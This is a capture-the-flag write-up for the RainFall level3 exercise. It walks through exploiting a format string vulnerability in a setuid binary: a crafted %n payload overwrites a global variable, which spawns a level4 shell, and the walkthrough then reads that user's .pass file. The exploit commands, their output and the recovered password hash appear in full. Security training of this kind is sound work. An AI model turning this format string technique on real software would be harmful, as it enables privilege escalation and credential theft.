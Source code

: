 level3
======

*	We spawn with a [level3](source/level3) executable
	```console
	level3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
	level3@RainFall:~$ ./level3
	█
	```
*	Let's take a look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level3@192.168.29.4:~/level3 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level3
	Enter the number of the executable file you want to analyze: 1
	```
*	My script created the [disas.s](source/disas.s) file which will make understanding this code a bit easier. We can see the main function calls the `v` one. This function uses `gets` but once again it looks protected
*	But hold on there are some interesting stuff here. Let's summarize the code :
	-	`fgets()` a string
	-	uses `printf()` to instantly print it out
	-	`cmp` the global variable `m` (`0x804988c`) with `0x40 (64)`
	-	if not equal jump to `leave`
	-	else continue
	-	then puts `0x8048600` in `eax` -> (`0x8048600: "Wait what?!\n"`)
	-	`fwrite()` it
	-	call to `system()` with `esp` of value -> (`0x804860d: "/bin/sh"`)
	I also used `Ghidra` to decompile it in `C` so that we can understand it better -> [level3.c](source/level3.c)
*	Important thing here is also that `printf()` is vulnerable to [format string exploit](https://owasp.org/www-community/attacks/Format_string_attack) !
	```console
	level3@RainFall:~$ ./level3 
	%x %x %x
	200 b7fd1ac0 b7ff37d0
	level3@RainFall:~$ ./level3 
	aaaa %x %x %x %x %x %x
	aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
	Here we can see our string `aaaa` at fourth position `61616161`
*	So we want to make the condition succeed, we need to make sure the content of m is of 64 bytes
*	We will be using the `%n` modifier which we can specify the address like so `%[address]$n`
*	Now let's not forget the little endian rule with the address of `m` and try to replace `aaaa` with it
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test | ./level3
	� 200 b7fd1ac0 b7ff37d0 804988c
	```
	Ok it worked
*	We now need to calculate our format string :
	-	address of m -> 4 bytes
	-	random data -> 60 bytes
	not too hard here
*	We now got everything we need, let's and this level :
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test - | ./level3
	�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```